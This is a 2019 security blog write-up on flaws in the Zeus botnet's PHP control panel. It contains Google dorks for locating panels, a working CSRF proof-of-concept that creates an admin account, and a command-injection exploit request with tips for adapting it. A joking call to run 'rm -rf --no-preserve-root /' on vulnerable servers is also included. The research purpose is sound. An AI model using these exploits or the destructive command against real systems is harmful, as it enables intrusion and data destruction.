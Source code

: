 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style="">
</div><div style="">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style="">
</div><div style="">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style=""></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files  - in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul>
<div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus1.png" src="https://z6543.github.io/_img/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus1.png" width="400"/></a></div>
<h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:
<div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;pre&gt;
  This is a CSRF POC to create a new admin user in Zeus admin panels.
  Username: user_1392719246 Password: admin1
  You might change the URL from 127.0.0.1.
  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  
&lt;/pre&gt;
&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;
    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;
 &lt;input name="name" type="hidden" value="user_1392719246" /&gt; 
 &lt;input name="password" type="hidden" value="admin1" /&gt; 
 &lt;input name="status" type="hidden" value="1" /&gt; 
 &lt;input name="comment" type="hidden" value="PWND!" /&gt;
 &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_files" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_os" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_info" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_options" type="hidden" value="1" /&gt;
 &lt;input name="r_system_user" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_users" type="hidden" value="1" /&gt;
    &lt;/form&gt;
&lt;script type="text/javascript"&gt;
 window.onload=function(){ 
  var counter = 10;
  var interval = setInterval(function() {
   counter--;
   document.getElementById('countdown').innerHTML = counter;
   if (counter == 0) {
    redirect();
    clearInterval(interval);
   }
  }, 1000);
 };
    function redirect() {
  document.getElementById("csrf-form").submit();
    }
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like GB/Big5, pretty unlikely.</li></ul>
<h3>Whats good news (for the C&amp;C panel owners)</h3>
The following stuff looks good, at least some vulns were taken seriously:
<ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul>
<h3>What's really bad news (for the C&amp;C panel owners)</h3>
And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a> through command injection (happy panda), but only for authenticated users (sad panda).

The vulnerable code is in system/fsarc.php:

<div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus2.png" src="https://z6543.github.io/_img/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus2.png" width="400"/></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){
   ...
   $archive .= '.zip';
   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';
   exec($cli, $e, $r);
}</pre>
The exploit could not be simpler: 
<pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1
</pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)
Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a> next time.

Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)

That's all folks!
Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )

<b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>